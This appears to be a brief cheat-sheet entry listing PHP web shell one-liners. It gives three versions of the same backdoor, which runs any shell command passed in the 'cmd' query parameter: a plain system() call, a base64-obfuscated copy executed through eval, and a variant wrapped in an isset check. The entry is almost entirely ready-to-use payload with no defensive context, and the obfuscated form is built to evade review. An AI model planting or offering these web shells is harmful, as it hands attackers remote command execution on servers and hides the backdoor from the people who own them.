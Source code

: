 # PHP

## Simple 'cmd' exec
```
echo system($_GET['cmd']);
```

### Base64 encoded:
```
eval(base64_decode('ZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsg'));
```

### With if
```
if (isset($_GET["cmd"])) { echo system($_GET['cmd']); }
```
